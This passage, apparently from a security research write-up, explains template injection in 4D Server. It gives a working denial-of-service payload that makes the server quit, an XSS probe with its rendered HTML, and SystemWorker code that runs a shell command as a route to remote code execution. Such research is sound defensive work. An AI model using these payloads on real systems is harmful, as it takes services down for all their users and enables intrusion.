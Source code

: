 This can lead to an interesting Denial of Service (DoS) during a template injection. 
By using 4D Server to host our web application locally, we can observe just how impactful this command can be.

The payload is as simple as this:

```plaintext
<!--#4DEVAL QUIT 4D-->
```

This can cause the 4D Server to quit entirely, closing access for all users.

On a different note, we can also execute client-side code, such as JavaScript.
Using the well-known probing payload `alert()`, it will pop up a window in the browser:

```plaintext
<script>alert("XSS - Template Injection")</script>
```

This will be inserted into the HTML code as follows:

```
      <section>
        <div>
          <p>Your name is: <script>alert("XSS - Template Injection")</script></p>
        </div>
      </section>
```

{{< image src="/images/4d-attack-surface-part-1/4d-page5.png" caption="" >}}

If the value is persistent and displayed to all users of the application, we'd get a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) that could cause some damage.

#### Remote Code Execution
The "most powerful" technique for leveraging 4D template injection is the use of the [SystemWorker](https://developer.4d.com/docs/API/SystemWorkerClass) class.

To put it simply:
> System workers allow the 4D code to call any external process (a shell command, PHP, etc.) on the same machine.

To launch the `ipconfig` utility on Windows OS, we can use the following command (example based on the official documentation):
```plaintext
var $myWinWorker : 4D.SystemWorker
var $ipConfig : Text
$myWinWorker:= 4D.SystemWorker.new("ipconfig")
$ipConfig:=$myWinWorker.wait(1).response
```

An instantiation is created by sending a command line to the constructor via [4D.SystemWorker.new](https://developer.4d.com/docs/API/SystemWorkerClass#4dsystemworkernew).
This starts an external process that launches the `ipconfig` command.

> [!IMPORTANT]
> A [.wait()](https://developer.4d.com/docs/API/SystemWorkerClass#wait) value can be set to wait for the completion of the `SystemWorker` execution or for the specified [.timeout()](https://developer.4d.com/docs/API/SystemWorkerClass#terminate).
> 
> If not set correctly, this can cause issues, potentially preventing you from receiving a result from your command. This can happen if you don't specify `.wait()` or set a value that is too low for the command's duration.
